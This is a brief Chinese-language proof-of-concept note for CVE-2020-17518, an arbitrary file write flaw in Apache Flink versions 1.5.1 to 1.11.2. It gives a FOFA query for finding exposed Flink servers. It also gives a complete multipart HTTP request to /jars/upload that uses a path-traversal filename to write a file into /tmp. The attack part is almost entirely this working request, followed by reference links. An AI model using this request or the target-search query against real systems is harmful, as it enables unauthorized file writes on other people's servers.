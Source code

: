 # CVE-2020-17518 Apache Flink 任意文件写入

影响范围

Apache Flink 1.5.1 ~ 1.11.2

FOFA：

```
app="APACHE-Flink" 
```


```bash
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 201

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/ywhack.txt"

forum.ywhack.com
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

ref

https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518
https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4